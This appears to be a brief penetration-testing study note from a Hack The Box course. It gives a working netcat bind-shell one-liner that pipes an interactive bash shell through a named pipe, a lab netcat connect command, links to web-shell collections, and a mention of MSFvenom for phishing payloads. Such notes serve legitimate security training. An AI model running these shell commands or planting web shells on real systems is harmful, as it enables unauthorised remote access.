 ## Bind Shell
Exemplary payload
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l targetIP Port > /tmp/f
```
Netcat connection command
```shell-session
alakin2504@htb[/htb]$ nc -nv 10.129.41.200 7777
```
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
https://github.com/samratashok/nishang
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
MSFvenom - Used to craft a payload (used in phishing)
[[PnS_Skills_Assessment]]